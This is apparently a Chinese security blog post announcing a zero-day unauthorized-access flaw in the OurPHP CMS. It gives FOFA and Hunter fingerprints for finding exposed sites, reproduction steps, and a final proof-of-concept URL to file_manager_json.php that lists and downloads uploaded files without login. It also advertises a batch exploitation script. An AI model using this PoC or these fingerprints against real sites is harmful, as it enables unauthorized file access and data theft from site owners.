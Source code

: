 #  0Day-OURPHP建站系统存在未授权访问漏洞   
原创 狐狸  狐狸说安全   2025-01-03 00:55  
  
**免责声明**  
  
由于传播、利用本公众号狐狸说安全所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，公众号  
狐狸说安全及作者不为**此**  
承担任何责任，一旦造成后果请自行承担！如有侵权烦请告知，我们会立即删除并致歉，谢谢！  
### 0x01 概述  
  
OurPHP 是一款100%开源的CMS万能建站系统。  
  
支持企业建站+多商城+商城分销+AI创作+小程序+世界语言外贸建站的CMS万能建站系统。  
### 0x02 正文  
  
**FOFA指纹：body="OURPHP"**  
  
**鹰图指纹：****web.body="OURPHP"**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/pH5fZ5lvwwYC9GBFLB3Z2RUc0KngG23rsjyHibqf0NNGEqEAqlRXV0FXtFQicHGubfGvzJR9Ksic2sFS0GibdEcJdw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/pH5fZ5lvwwYC9GBFLB3Z2RUc0KngG23rM4HibXriblFvZO413SPWVmcAuEH2AXN6zia5evWQpOyZBicXuKQogG0IGw/640?wx_fmt=png&from=appmsg "")  
  
**复现过程：******  
  
点击备忘录的地方  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/pH5fZ5lvwwYC9GBFLB3Z2RUc0KngG23r2FzXHT1DNd8Gx5tt9mbLFG2AsVYbxgMxk14JYx08zF72kL31osWzibA/640?wx_fmt=png&from=appmsg "")  
  
  
点击上传附件然后点击文件空间的地方抓包  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/pH5fZ5lvwwYC9GBFLB3Z2RUc0KngG23rkWLekrZENAskpjITibulanWiaMjqDY31G4T6pRaCkjrWJPtTawiaCRkGw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/pH5fZ5lvwwYC9GBFLB3Z2RUc0KngG23roblH9GbkPEYIN6Wd90ibJF2H0Zq7cc4D3uVQIcpH0o9sHdiayOdaCiasQ/640?wx_fmt=png&from=appmsg "")  
  
  
会列出uploadfile文件夹下的目录以及文件  
  
删除cookie进行操作  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/pH5fZ5lvwwYC9GBFLB3Z2RUc0KngG23r487KYibAbI7TwabHgoHBn0IDwfUCIKkUgiaPAbXNrt6odiaordtJkvPWA/640?wx_fmt=png&from=appmsg "")  
  
  
发现还是可以访问到，转到代码进行查看  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/pH5fZ5lvwwYC9GBFLB3Z2RUc0KngG23rHlktWFFtiarM5cwoTmgBROA7jO3YWDgw3805DdA9FAxMa8SBLC3Dtyw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/pH5fZ5lvwwYC9GBFLB3Z2RUc0KngG23r9S3nnaWkDf1Ru08UpN0F230zAnTJpwrNXQiangjHTicfl2kFibBzicu5ww/640?wx_fmt=png&from=appmsg "")  
  
  
可见从头到尾并未发现调用cookie和session进行校验的函数，所以可以直接未授权访问  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/pH5fZ5lvwwYC9GBFLB3Z2RUc0KngG23rWZWzTZNsOLSfERfSVzM6dFRTiaBcTS1dQBI21GZ8MBSzTj0ry83R8BA/640?wx_fmt=png&from=appmsg "")  
  
```
http://192.168.101.219/function/editor/php/file_manager_json.php?path=20241126/&order=NAME&dir=file
```  
  
因为代码中检测了末尾必须是/结尾，所以我们拼接访问的时候要加/才可以  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/pH5fZ5lvwwYC9GBFLB3Z2RUc0KngG23rrRAGEMpCkAV3XgYNhOIpj59l1g09WlAiaBwrnPoRficTfH7kJ5Z0GgCQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/pH5fZ5lvwwYC9GBFLB3Z2RUc0KngG23rBfzuRMxkpI7fp9cMNcibibMy5GGAicyxKuF7rAoBgoCTZOpFich1iaxcT3w/640?wx_fmt=png&from=appmsg "")  
  
  
可直接读取当前路径下所有的目录以及文件，均可任意查看以及下载操作  
  
**最终POC：**  
```
/function/editor/php/file_manager_json.php?path=/&order=NAME&dir=file
```  
  
  
  
**0x03结尾**  
  
此漏洞详情已上传圈子，批量POC脚本也已上传至圈子  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/pH5fZ5lvwwYCBlib0RxTOaKian3LgGy7hbZgLOGRjzKZE5K6ndHtT4vh5yvcjaHibD43EUiaNl9zEMfYcNHf365deg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/pH5fZ5lvwwYCBlib0RxTOaKian3LgGy7hbEkLgaricn2iaJJ4PmnVHM75PJStEMJTLYnjogiaI6wSibkXyrQ11ujy8DQ/640?wx_fmt=png&from=appmsg "")  
  
**0x04内部圈子**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/pH5fZ5lvwwYCBlib0RxTOaKian3LgGy7hbGFLYASuM38Jmsuia9tnnnDqjpGcGMJd0jIYDXbQu9ibyxSht6DZm7HDQ/640?wx_fmt=jpeg&from=appmsg "")  
  
